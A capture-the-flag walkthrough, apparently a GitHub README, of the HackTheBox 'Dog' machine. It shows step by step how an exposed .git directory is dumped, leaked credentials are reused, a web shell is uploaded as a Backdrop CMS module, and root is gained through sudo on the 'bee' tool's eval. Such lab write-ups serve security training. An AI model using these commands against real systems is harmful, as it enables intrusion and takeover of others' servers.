

# Dog CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Dog** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/Dog). 
---

we see open ports 22 and 80


we also see multiple directories in robots.txt


/core/ is pretty interesting one


we see that website is run via Backdrop CMS

we also can scan for hidden directories


we found .git , so we can dump it by using git-dumper

```
git-dumper http://$IP/.git src
```


in dumped files (settings.php) we can find some info about database and possible password


i tried to login with those credentials but they didnt seem to work, we have unrecognized user


we might try to find other users

i used this command to find email address inside dumped files

```
grep -rE -o "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}" src
```


i found `tiffany@dog.htb` , and we can log in as her





i found an exploit that might land use remote code execution `https://www.exploit-db.com/exploits/52021` plus in admin panel we see that we are using this backdrop version


it didnt work but it suggests to manually install a module, so we can try that, 

first we unzip the archive that script created, then we archive the unziped folder to .tar.gz

```
tar -czvf shell.tar.gz shell
```


after uploading we can access

```
http://10.10.11.58/modules/shell/shell.php?cmd=id
```


we got shell access


we see user in /home

i tested the password that we already had to test if we can login with it, and it worked we now have access as `johncusack` (i uploaded my public key to not lose access)


now we can grab user flag


looking at the sudo -l output


we can run command /usr/local/bin/bee, we see that there is option eval that might be helphul


looking at documentation we need to use command

```
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("/bin/bash -p")'
```

now we have root access and root flag


# MACHINE PWNED
